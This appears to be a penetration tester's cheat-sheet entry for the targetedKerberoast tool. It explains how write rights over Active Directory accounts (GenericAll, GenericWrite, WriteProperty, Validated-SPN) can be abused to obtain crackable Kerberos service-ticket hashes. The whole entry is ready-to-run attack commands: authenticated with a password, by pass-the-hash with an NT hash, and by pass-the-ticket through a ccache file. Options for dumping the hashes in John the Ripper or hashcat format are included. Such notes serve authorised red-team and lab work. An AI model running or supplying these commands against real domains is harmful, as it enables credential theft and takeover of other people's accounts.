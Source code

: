 # targetedKerberoast

% acl, GenericWrite
#plateform/linux #target/remote #cat/ATTACK/DACL-ABUSE

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
```

## targetedKerberoast (cred)
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -p <password> --dc-ip <dc_ip>
```

## targetedKerberoast (pth)
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -H <nt_hash> --dc-ip <dc_ip>
```

## targetedKerberoast (ptt)
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
export KRB5CCNAME=<ccache>
targetedKerberoast.py -v -d <domain> -k --no-pass --dc-ip <dc_ip>
```


